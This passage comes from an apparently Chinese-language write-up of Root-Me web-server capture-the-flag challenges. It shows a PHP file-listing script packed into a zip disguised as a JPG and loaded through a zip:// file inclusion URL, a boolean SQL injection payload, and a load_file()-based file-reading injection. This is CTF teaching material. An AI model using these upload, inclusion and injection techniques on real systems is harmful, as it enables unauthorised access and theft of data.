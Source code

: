 ```
        $dp ->close();
    }
    if(is_file($path))
    {
        $files[] =  $path;
    }
}
function get_filenamesbydir($dir)
{
    $files =  array();
    get_allfiles($dir,$files);
    return $files;
}
$filenames = get_filenamesbydir("./");
//打印所有文件名，包括路径
foreach ($filenames as $value)
{
    echo $value, PHP_EOL;
}
?></pre>
' > a.php;
zip payload.zip a.php;
mv payload.zip payload.jpg;
http://challenge01.root-me.org/web-serveur/ch43/index.php?page=zip://tmp/upload/3rqsJvyOk.jpg%23a
```


## 45.SQL injection - Error
\[+]URL:[http://challenge01.root-me.org/web-serveur/ch34/](http://challenge01.root-me.org/web-serveur/ch34/ "http://challenge01.root-me.org/web-serveur/ch34/")
\[+]Statement:找到管理员的密码
\[+]Solution:页面的第一个页面无法注入。但第二个页面的order参数可以注入。利用sqlmap可以注入出数据。
\[+]Payload:action=contents\&order=ASC,(SELECT (CASE WHEN (8970=8970) THEN 1 ELSE 1/(SELECT 0) END))

## 46.SQL injection - Insert

## 47.XSLT - Code execution

## 48.Java - Spring Boot

## 49.SQL injection - file reading
\[+]URL:[http://challenge01.root-me.org/web-serveur/ch31/](http://challenge01.root-me.org/web-serveur/ch31/ "http://challenge01.root-me.org/web-serveur/ch31/")
\[+]Statement:找到管理员的密码
\[+]Solution:member页面的id参数可以注入，使用union select可以读到表里的member密码。但是并不是正确的密码。按照题目要求，需要读文件。使用load\_file()函数读取，猜测文件路径，最后确定为/challenge/web-serveur/ch31/index.php，这里因为单双引号被过滤了，所以使用16进制表示。然后可以读到index.php源码。源码里给出了从数据库里的密码到和输入比较的字符串的解密函数，在本地利用这个函数计算出真实密码值，另外注意到源码里是输入的sha1值等于这个值，所以在在线的sha1解密网站解密这个值，得到最终的密码
\[+]Payload: &#x20;

